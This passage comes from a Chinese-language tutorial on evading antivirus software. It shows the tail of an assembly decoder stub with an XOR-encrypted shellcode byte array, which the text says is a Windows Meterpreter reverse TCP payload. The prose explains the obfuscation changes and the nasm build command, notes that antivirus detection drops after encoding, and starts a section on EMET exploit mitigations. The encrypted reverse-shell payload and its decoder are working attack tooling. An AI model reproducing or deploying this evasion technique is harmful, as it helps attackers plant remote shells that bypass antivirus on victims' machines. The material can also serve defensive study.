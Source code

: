 ```
51.RET ; Execute the shellcode
52.GetShellcode:
53.CALL Stub ; Jump to Stub label and push the address of shellcode to stack
54.Shellcode: DB 0x84, 0x73, 0x47, 0xb9, 0x7f, 0x77, 0x59, 0xd5, 0xaa, 0x97, 0xb8, 0xff,
55.0x4e, 0xe9, 0x4f, 0xfc, 0x6b, 0x50, 0xc4, 0xf4, 0x6c, 0x10, 0xb7, 0x91,
56.0x70, 0xc0, 0x73, 0x7a, 0x7e, 0x59, 0xd4, 0xa7, 0xa4, 0xc5, 0x7d, 0x5b,
57.0x19, 0x9d, 0x80, 0xab, 0x79, 0x5c, 0x27, 0x4b, 0x2d, 0x20, 0xb2, 0x0e,
58.0x5f, 0x2d, 0x32, 0xa7, 0x4e, 0xf5, 0x6e, 0x0f, 0xda, 0x14, 0x4e, 0x77,
59.0x29, 0x10, 0x9c, 0x99, 0x7e, 0xa4, 0xb2, 0x15, 0x57, 0x45, 0x42, 0xd2,
60.0x4e, 0x8d, 0xf4, 0x76, 0xef, 0x6d, 0xb0, 0x0a, 0xb9, 0x54, 0xc8, 0xb8,
61.0xb8, 0x4f, 0xd9, 0x29, 0xb9, 0xa5, 0x05, 0x63, 0xfe, 0xc4, 0x5b, 0x02,
62.0xdd, 0x04, 0xc4, 0xfe, 0x5c, 0x9a, 0x16, 0xdf, 0xf4, 0x7b, 0x72, 0xd7,
63.0x17, 0xba, 0x79, 0x48, 0x4e, 0xbd, 0xf4, 0x76, 0xe9, 0xd5, 0x0b, 0x82,
64.0x5c, 0xc0, 0x9e, 0xd8, 0x26, 0x2d, 0x68, 0xa3, 0xaf, 0xf9, 0x27, 0xc1,
65.0x4e, 0xab, 0x94, 0xfa, 0x64, 0x34, 0x7c, 0x94, 0x78, 0x9b, 0xad, 0xce,
66.0x0c, 0x45, 0x66, 0x08, 0x27, 0xea, 0x0f, 0xbd, 0xc2, 0x46, 0xaa, 0xcf,
67.0xa9, 0x5d, 0x4f, 0xa6, 0x51, 0x5f, 0x91, 0xe9, 0x17, 0x5e, 0xb9, 0x37,
68.0x4f, 0x59, 0xad, 0xf1, 0xc0, 0xd1, 0xbf, 0xdf, 0x3b, 0x47, 0x27, 0xa4,
69.0x78, 0x8a, 0x99, 0x30, 0x99, 0x27, 0x69, 0x0c, 0x1f, 0xe6, 0x28, 0xdb,
70.0x95, 0xd1, 0x95, 0x78, 0xe6, 0xbc, 0xb0, 0x73, 0xef, 0xf1, 0xd5, 0xef,
71.0x28, 0x1f, 0xa0, 0xf9, 0x3b, 0xc7, 0x87, 0x4e, 0x40, 0x79, 0x0b, 0x7b,
72.0xc6, 0x12, 0x47, 0xd3, 0x94, 0xf3, 0x35, 0x0c, 0xdd, 0x21, 0xc6, 0x89,
73.0x25, 0xa6, 0x12, 0x9f, 0x93, 0xee, 0x17, 0x75, 0xe0, 0x94, 0x10, 0x59,
74.0xad, 0x10, 0xf3, 0xd3, 0x3f, 0x1f, 0x39, 0x4c, 0x4f, 0xa6, 0x2e, 0xf1,
75.0xc5, 0xd1, 0x27, 0xd3, 0x6a, 0xb9, 0xb0, 0x73, 0xeb, 0xc8, 0xaf, 0xb9,
76.0x29, 0x24, 0x6e, 0x34, 0x4d, 0x7f, 0xb0, 0xc4, 0x3a, 0x6c, 0x7e, 0xb4,
77.0x10, 0x9a, 0x3a, 0x48, 0xbb
78.
79.
80.End: EQU $-Shellcode ; Set the shellcode size to End label
```

唯一的改变在于EAX和ECX寄存器，现在在shellcode中负责计数的寄存器是EAX，且在每个XOR和MOV指令之间插入一些NOP填充，通过这个教程使用的shellcode是Windows Meterpreter反向TCP，在使用一个10字节长的随机XOR密钥加密shellcode后，一起放置在解码器中，使用nasm –f bin Decoder.asm命令汇编解码器为二进制格式（不要忘了移除shellcode中的换行符，否则nasm不能汇编它）。

下面是编码前shellcode的AV扫描结果，

[![](./img/85648/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012f8feda6dd42a34f.png)

如你所见，大量的AV扫描器识别了shellcode。下面是shellcode编码后的扫描结果。

<br>

**0x07 对抗利用缓解措施**

绕过AV产品有很多中方法，但是对抗利用缓解措施导致形式变了，2009年微软宣称EMET，它是一个工具包，来帮助阻止在软件中的漏洞利用，它有下面几种机制：

动态数据执行保护（DEP）

结构化异常处理覆盖保护（SEHOP）

NullPage分配

堆喷射保护

